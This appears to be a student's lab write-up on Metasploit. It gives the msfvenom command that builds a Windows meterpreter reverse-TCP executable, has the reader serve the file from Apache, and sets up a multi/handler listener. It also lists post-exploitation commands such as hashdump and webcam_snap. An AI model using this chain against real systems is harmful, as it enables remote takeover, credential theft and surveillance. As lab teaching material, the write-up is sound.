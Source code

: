 ```bash
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="1133" height="506" alt="image" src="https://github.com/user-attachments/assets/4bfaf17a-2563-47b1-bd71-fa15dc7790bf" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.15 -f exe > dharunya.exe```

### Output:
<img width="1139" height="258" alt="image" src="https://github.com/user-attachments/assets/3ebd4bf6-333f-4865-903b-f25147a4812d" />

copy the dharunya.exe into the apache /var/www/html folder

<img width="478" height="82" alt="image" src="https://github.com/user-attachments/assets/382caa03-6cc7-46ba-ac9b-1d1456f63fdd" />

Start apache server
sudo systemctl apache2 start

<img width="463" height="75" alt="image" src="https://github.com/user-attachments/assets/575150d8-7122-4a6b-b8b0-85d972055ccc" />

Check the status of apache2
<img width="1112" height="492" alt="image" src="https://github.com/user-attachments/assets/79cc7318-68ee-47a0-be42-81cbda838ea8" />

Invoke msfconsole:
## OUTPUT:

<img width="1010" height="737" alt="image" src="https://github.com/user-attachments/assets/c0ab0328-6859-4b2a-b879-de0e40e10f56" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="1140" height="710" alt="image" src="https://github.com/user-attachments/assets/951a088a-f643-4fcc-8010-4ac5d47f5a7b" />


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.2.15
exploit

<img width="886" height="256" alt="image" src="https://github.com/user-attachments/assets/d6d88aac-af11-426e-8d3c-1c5cbe4b731d" />
